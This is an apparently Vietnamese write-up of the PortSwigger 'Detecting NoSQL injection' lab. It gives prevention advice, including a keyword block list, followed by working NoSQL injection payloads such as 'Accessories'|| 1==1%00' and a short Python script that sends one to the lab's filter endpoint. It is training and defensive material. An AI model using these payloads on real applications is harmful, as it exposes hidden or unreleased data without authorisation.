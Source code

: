 ### Phòng tránh

Cách phòng tránh kinh điển và không thể thiếu đối với những ứng dụng dính lỗi Injection, đó là kiểm soát chặt chẽ đầu vào. Các cách phòng tránh NoSQL có thể là:

- Không cho phép biến đầu vào thuộc kiểu array
- Chặn 1 số kí tự, keyword: [, ], {, }, or,and, $regex, ...

## 1. Lab: Detecting NoSQL injection

link: https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-detection

### Đề bài

![image](https://hackmd.io/_uploads/SkQipIIi6.png)

### Phân tích

- Bộ lọc danh mục sản phẩm cho phòng thí nghiệm này được cung cấp bởi cơ sở dữ liệu MongoDB NoSQL. Nó dễ bị tấn công bởi NoSQL.
- Để giải quyết vấn đề lab, mình cần thực hiện một cuộc tấn công tiêm NoSQL khiến ứng dụng hiển thị các sản phẩm chưa được phát hành.

![image](https://hackmd.io/_uploads/SJDSJDIoa.png)

mình thử thêm payload `' or 1=1-- -` thì web hiện lỗi khi thực thi khi truy vấn cơ sở dữ liệu ở đây là mongo

câu lệnh truy vấn ở đây có thể là

```sql!
this.category == 'fizzy' && this.released == 1
```

Hạn chế `this.released == 1` được sử dụng để chỉ hiển thị các sản phẩm được phát hành. Đối với các sản phẩm chưa được phát hành, có lẽ là `this.released == 0`.
Nếu MongoDB bỏ qua tất cả các ký tự sau ký tự null, điều này sẽ loại bỏ yêu cầu đặt trường đã phát hành thành 1. Kết quả là tất cả các sản phẩm trong danh fizzymục đều được hiển thị, bao gồm cả các sản phẩm chưa được phát hành

### Khai thác

- mình gửi điều kiện boolean luôn đánh giá là đúng trong tham số danh mục. trong sql điều kiện `or 1=1` thì ở NoSQL mình sẽ sử dụng `'||1||'`, câu query sẽ tương đương với ' `'|| 1==1%00`

![image](https://hackmd.io/_uploads/SJMeSvUsa.png)

mình đã viết script khai thác

```python!
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a0c00c004943321857967c7000400d4.web-security-academy.net'

payload = "Accessories'|| 1==1%00"
response= requests.get(
    url + '/filter?category=' + payload,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
```
